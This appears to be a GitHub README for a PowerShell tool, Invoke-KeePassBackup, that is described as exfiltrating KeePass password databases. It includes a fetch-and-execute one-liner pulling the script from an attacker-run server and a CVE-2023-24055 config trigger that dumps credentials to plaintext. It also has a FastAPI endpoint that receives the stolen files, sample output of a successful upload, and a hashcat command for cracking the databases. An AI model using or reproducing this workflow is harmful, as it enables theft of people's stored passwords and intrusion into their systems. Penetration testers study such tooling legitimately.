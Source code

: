 # Invoke-KeePassBackup
This PowerShell script has been crafted to streamline the process of transmitting KeePass databases to a designated endpoint. Conceived as an indispensable tool for your penetration testing toolkit, it aims to facilitate the exfiltration of target databases, paving the way for subsequent exploitation. 🕊️

The goal is to incorporate comprehensive KeePass tests, thereby eliminating manual, time-consuming commands.

## Features
- Automatically locates the KeePass executable and ascertains its version.
- Adds an export trigger to the KeePass configuration if KeePass version is below 2.53 (a.k.a [`CVE-2023-24055`](https://nvd.nist.gov/vuln/detail/CVE-2023-24055)).
- Backs up the current KeePass configuration before making changes.
- Scours all KeePass databases on the computer and uploads them to a given endpoint.
- Uses GZip compression for efficient backup size.
  
## Usage
Run the script using the following command:
```powershell
Invoke-KeePassBackup -url "https://backup.endpoint/u"
```

Knowing the real use-case, preferred running is from your own `HTTP(S)`/`WebDAV` server:
```powershell
$ip="192.168.45.218";powershell -nop -c "iex(irm http://$ip/Invoke-KeePassBackup.ps1); Invoke-KeePassBackup http://$ip/u"
```
It will output something like this:
```powershell
--------------- KeePass backup for noah@ITWR02
KeePass location: C:\Program Files\KeePass Password Safe 2\KeePass.exe
KeePass version: 2.51.1.0
--------------- Adding an export trigger on config file: C:\Users\noah\AppData\Roaming\KeePass\KeePass.config.xml
Backup of current config file done at: C:\Users\noah\AppData\Roaming\KeePass\KeePass.config.backup.xml
Export location: C:\Users\noah\AppData\Local\Temp\KeePassBackup.csv
Configuration complete. The trigger will go off as soon as it is opened.
--------------- Scanning for KeePass databases on ITWR02
Found KeePass database at: C:\Users\noah\Documents\Database.kdbx
Uploaded noah@ITWR02-20231012-Database.kdbx successfully!
```

The reception point could look like this FastAPI Python3 code snippet:
```python
@app.post("/u")
async def upload_file(x_file_name: str = Header(...), data: str = Body(...)):
    """
    Handle file upload via POST request.

    Args:
        x_file_name (str): The name of the file, from header.
        data (str): The body of the request containing the uploaded file's data.

    Raises:
        HTTPException: If the filename header is missing.
        HTTPException: If an error occurs during file upload.
    """

    if not x_file_name:
        raise HTTPException(
            status_code=status.HTTP_400_BAD_REQUEST,
            detail="Provide a filename with Header 'X-File-Name'",
        )

    try:
        # Decode the base64 data
        decoded_data = base64.b64decode(data.encode("utf-8"))

        # Check if the data is gzipped by looking at the first two bytes
        if decoded_data[:2] == b"\x1f\x8b":
            # If gzipped, decompress
            buffer = io.BytesIO(decoded_data)
            with gzip.GzipFile(fileobj=buffer, mode="rb") as f:
                processed_data = f.read()
        else:
            # If not gzipped, just use the decoded data as is
            processed_data = decoded_data

        # Save the file
        save_file_content(file_name=x_file_name, data=processed_data)

        return {"status": "success", "message": f"Received {x_file_name}."}

    except Exception as error:
        logger.error(f"Error while processing upload: {error}")
        raise HTTPException(status_code=500)
```

Once database received, to crack the KeePass database hash, first use `keepass2john` to extract the hash. Then, remove the prepended filename, which acts as a username, and utilize `hashcat` with the desired wordlist and rules.
```shell
hashcat $(keepass2john loot/noah@ITWR02-20231012-Database.kdbx | cut -d':' -f2-) -a 0 -O -D 1 -w 3 /usr/share/wordlists/rockyou.txt -m 13400 -r /usr/share/hashcat/rules/rockyou-30000.rule --force
```

## Contributing

Pull requests are welcome. For major changes, please open an issue first to discuss what you would like to change.
